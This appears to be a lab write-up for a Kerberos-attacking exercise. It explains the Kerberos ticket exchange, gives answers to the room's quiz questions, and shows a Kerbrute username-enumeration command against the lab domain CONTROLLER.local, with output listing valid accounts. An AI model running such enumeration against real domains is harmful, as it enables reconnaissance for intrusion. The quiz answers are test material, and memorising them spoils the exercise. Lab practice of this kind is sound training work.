 - AS-REQ - 1.) The client requests an Authentication Ticket or Ticket Granting Ticket (TGT).
- AS-REP - 2.) The Key Distribution Center verifies the client and sends back an encrypted TGT.
- TGS-REQ - 3.) The client sends the encrypted TGT to the Ticket Granting Server (TGS) with the Service Principal Name (SPN) of the service the client wants to access.
- TGS-REP - 4.) The Key Distribution Center (KDC) verifies the TGT of the user and that the user has access to the service, then sends a valid session key for the service to the client.
- AP-REQ - 5.) The client requests the service and sends the valid session key to prove the user has access.
- AP-REP - 6.) The service grants access

##   Answer the questions below

**What does TGT stand for?**

- Ticket Granting Ticket

**What does SPN stand for?**

- Service Principal Name

**What does PAC stand for?**

- Privilege attribute certificate

**What two services make up the KDC?**

- AS, TGS

* * * 

## Task 2 - Enumeration w/ Kerbrute 

![0xskar](/assets/kerbrute03.png)

sudo /opt/kerbrute/kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt

```shell
┌──(0xskar㉿cocokali)-[~/thm/attackingkerberos]
└─$ sudo /opt/kerbrute/kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt    

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 06/20/22 - Ronnie Flathers @ropnop

2022/06/20 11:46:28 >  Using KDC(s):
2022/06/20 11:46:28 >   CONTROLLER.local:88

2022/06/20 11:46:28 >  [+] VALID USERNAME:       admin1@CONTROLLER.local
2022/06/20 11:46:29 >  [+] VALID USERNAME:       admin2@CONTROLLER.local
2022/06/20 11:46:29 >  [+] VALID USERNAME:       administrator@CONTROLLER.local
2022/06/20 11:46:30 >  [+] VALID USERNAME:       httpservice@CONTROLLER.local
2022/06/20 11:46:30 >  [+] VALID USERNAME:       machine1@CONTROLLER.local
2022/06/20 11:46:30 >  [+] VALID USERNAME:       machine2@CONTROLLER.local
2022/06/20 11:46:30 >  [+] VALID USERNAME:       user1@CONTROLLER.local
2022/06/20 11:46:30 >  [+] VALID USERNAME:       sqlservice@CONTROLLER.local
2022/06/20 11:46:30 >  [+] VALID USERNAME:       user2@CONTROLLER.local
2022/06/20 11:46:30 >  [+] VALID USERNAME:       user3@CONTROLLER.local
2022/06/20 11:46:30 >  Done! Tested 100 usernames (10 valid) in 1.887 seconds
```
